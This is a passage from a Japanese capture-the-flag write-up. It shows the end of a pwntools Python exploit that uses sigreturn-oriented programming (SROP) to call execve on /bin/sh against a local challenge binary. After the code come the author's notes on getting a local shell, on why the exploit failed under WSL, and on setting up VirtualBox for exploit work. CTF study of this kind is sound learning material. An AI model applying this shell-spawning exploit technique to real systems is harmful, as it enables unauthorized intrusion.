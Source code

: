 ```python
    }

    s = process(elf.path)
    junk = b"a" * 0x28
    payload = junk
    payload += p64(gadgets["sigreturn"])

    frame = SigreturnFrame()
    frame["rax"] = 59
    frame["rdi"] = binsh
    frame["rsi"] = 0
    frame["rdx"] = 0
    frame["rip"] = gadgets["syscall"]

    payload += bytes(frame)

    s.send(payload)

    s.interactive()
```

## Flag

ローカルでシェル取っただけ

## 感想

TSGCTFでSROPが出たので習得するかと思ったので解きましたがこのコーナーのこの時期にやるにはちょっと簡単すぎたので応用できそうな問題を探したいです(TSGCTFのBeginner's PwnはFSA等他にやることが多すぎるので後回し)

元々WSLでやってたら何故か上手く行かなかった(公式のwriteupも他人のwriteupも全部効かなかった)のでVirtualBoxで試すついでに環境構築してこのコーナーサボってました
結果、仮想環境上のubuntu serverに対してVSCodeからSSHするのが楽だったので今度からこれでExploit開発します

## 参考文献

* [x64でSigreturn Oriented ProgrammingによるASLR+DEP+RELRO回避をやってみる - ももいろテクノロジー](http://inaz2.hatenablog.com/entry/2014/07/30/021123)